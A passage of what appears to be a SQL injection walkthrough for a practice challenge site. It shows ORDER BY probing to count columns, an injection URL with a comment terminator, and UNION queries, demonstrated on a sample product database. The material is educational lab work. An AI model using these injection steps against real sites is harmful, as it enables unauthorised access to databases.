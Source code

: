 **Number of Records: 8**

You see the order of displayed table will be sorted by corresponding column which its position is indicated by the number after **ORDER BY** clause. What if we try to order the table by 4th column?

```url
The Microsoft Jet database engine does not recognize '4' as a valid field name or expression.
```

It will immediately response with the error indicating that there is no column 4 : >. Now go and try this technique on our target site and try 1 till 5 see what you can get.

```url
Warning mysql_fetch_arry(): supplied argument is not vaild MySQL result resource in \challanges\basic\12\index.php
```

**Note** that you need to add ```-- -``` to common out the rest as follows:

```url
http://securityoverride.org/challenges/basic/12/index.php?id=1%20order%20by%205%20--%20-
```

After this step, we know that the table storing authenticated information consists of 4 columns.

###STEP 3. Check the table name.

Next target is to find the table name storing authenticated information. To achieve this goal, we use **UNION** clause. The **UNION** clause allows us to merge results set from different queries. Let’s try **UNION** clause on our online database:

```SQL
SELECT * FROM categories
UNION
SELECT * FROM products;
```

```url
Error: The number of columns in the two selected tables or queries of a union query do not match.
```

Hmm, look like the two queries need to be matched in the returned number of columns.

Since we already knew that the categories table has 3 columns, we can restrict the result of the the other query as follows:

```SQL
SELECT * FROM categories
UNION
SELECT productid, productname,unit from products;
```

| CategoryID  | CategoryName  | Description   |
|---:|---:|---:|
| 1  | Beverages   | Soft drinks, coffees, teas, beers, and ales   |
|1  | Chais |10 boxes x 20 bags  |
| 2 |Chang  |24 - 12 oz bottles  |
|2  |Condiments  |Sweet and savory sauces, relishes, spreads, and seasonings  |
| 3 |Aniseed Syrup  | 12 - 550 ml bottles |
| 3 |Confections  |Desserts, candies, and sweet breads  |
| ... | ... | ...|
